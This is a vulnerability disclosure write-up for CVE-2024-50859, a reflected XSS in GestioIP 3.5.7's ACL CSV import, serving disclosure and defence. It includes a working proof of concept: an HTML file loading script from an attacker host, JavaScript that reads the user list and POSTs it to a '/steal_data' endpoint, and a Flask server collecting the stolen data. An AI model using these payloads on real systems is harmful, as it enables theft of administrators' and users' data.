 ```yaml
---
title: "CVE-2024-50859. GestioIP Vulnerability: Reflected XSS"
description: Reflected Cross-Site Scripting
date: 2025-01-13T12:28:27-03:00
images: 
author: Maximiliano Belino
lang: en
tags:
  - vulnerability
  - CVE
  - Refelected
  - XSS
---
```

# CVE-2024-50859

- [Information](#information)
	- [Description](#description)
- [Proof-of-Concept Exploit](#proof-of-concept-exploit)
	- [Description](#description)
	- [Steps to Reproduce](#steps-to-reproduce)
	- [Case: Basic test "hello world!"](#case-basic-test-hello-world)
		- [Usage/Exploitation](#usageexploitation)
	- [Case: Data exfiltration](#case-data-exfiltration)
		- [Usage/Exploitation](#usageexploitation)
		- [Files](#files)

## Information

### Description

The `ip_import_acl_csv` request is vulnerable to Reflected XSS (Reflected Cross-Site Scripting); the user can upload a file and the file content is reflected in the HTML response without being sanitized. If the file uploaded by the user has an incorrect format and an error occurs during its processing, part of the file's content may be displayed in the browser. If this content includes HTML or scripts and it is not properly escaped, the browser could interpret it, leading to a security vulnerability. This could allow data exfiltration and enabling CSRF (Cross-Site Request Forgery) attacks.<br>
Proper input validation and output encoding are critical to prevent this vulnerability.


**Versions Affected:** 3.5.7 <br> 

## Proof-of-Concept Exploit
### Description

The `ip_import_acl_csv` feature of GestioIP 3.5.7 is vulnerable to Reflected XSS, leading to data exfiltration and CSRF attacks.


### Steps to Reproduce


**Step 1.** Set this in the Global Configuration

	Manage > Manage GestioIP > ACL connection management

![](CVE-2024-50859.png)

Then you can see the menu option:

			import/export > "import ACLs/ACL Connections"

![](CVE-2024-50859-1.png)

**Step 2.** Upload a "malicious" file

Select: import/export > Import ACLs/ACL Connections

Select: "Connection List"

Select "report only"

Browse to select the file you want to upload.

Click 'upload'

![](CVE-2024-50859-2.png)


### Case: Basic test "hello world!"

This is just a simple example to showcase that HTML content is reflected in the browser output.

#### Usage/Exploitation

To exploit this vulnerability the attacker uploads a basic HTML file `hello.html` that includes H1 HTML tags:


`hello.html`

```html
<h1>Hello World!</h1>
```

Upload the HTML file:

![](CVE-2024-50859-7.png)


After clicking upload the webpage shows:

![](CVE-2024-50859-8.png)


{{< admonition type=danger title="Danger" >}}
The application displays the uploaded content in the browser, rendering it as a formatted `<h1>` tag instead of escaping characters to treat it as plain text. Without proper escaping, this behavior can be exploited by an attacker to inject malicious scripts, leading to a reflected XSS vulnerability.
{{< /admonition >}}



### Case: Data exfiltration

For example, an attacker could leverage this vulnerability to **retrieve the list of users** from the GestioIP application. If an administrator uploads a "malicious" HTML file while authenticated to the application, the HTML will be interpreted by the browser, and the XSS payload will be triggered.

This causes the administrator's browser to perform a GET request to a file hosted on the attacker's server, retrieving the user list from the GestioIP application. Subsequently, the browser will send a POST request to the attacker's server, exfiltrating the obtained user information.

#### Usage/Exploitation

To exploit this vulnerability:

• The admin user uploads a malicious file, such as `refxss_3.html`, which will request a '**.js**' file from the attacker's server.

![](CVE-2024-50859-3.png)

• The attacker must host the `refxss_exfiltrate_3.js` file on a server they control (e.g., using `python3 -m http.server 8090`), along with a Python Flask server to receive the exfiltrated data.

Once the authenticated administrator uploads the malicious HTML file, the XSS is triggered, prompting the admin's browser to collect the data and send it to the attacker's server.


After clicking upload:

1. The webpage shows:

![](CVE-2024-50859-4.png)


2. The server processed the html file and the attacker server receives the GET request for the 'js' file:

![](CVE-2024-50859-5.png)


3. The data is gathered as stated in the JS file, and afterwards, the attacker's Flask server receives the POST request.

![](CVE-2024-50859-6.png)

4. Data exfiltrated is saved to a file in the attacker's server.


#### Files


1. `refxss_3.html`

```html
<html><script src="http://10.20.0.1:8090/refxss_exfiltrate_3.js"></script></html>
```



2. `refxss_exfiltrate_3.js`

```javascript
var req1 = new XMLHttpRequest();
req1.open('GET',"http://localhost/gestioip/res/ip_show_user.cgi", false);
req1.send();

response = req1.responseText;

var req2 = new XMLHttpRequest();
req2.open('POST', "http://10.20.0.1:8000/steal_data", false);
req2.setRequestHeader('Content-Type', 'text/html');
req2.send(response);
```



3. `server_flask_html.py` 

Python flask server

```python 
from flask import Flask, request
from flask_cors import CORS
import json

app = Flask(__name__)
CORS(app)

@app.route('/steal_data', methods=['POST'])
def steal_data():
    data = request.data.decode('utf-8')
    with open('data_exfiltrated.html', 'a') as f:  
        f.write(data + '\n')
    return 'Data received and saved', 200

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)

```
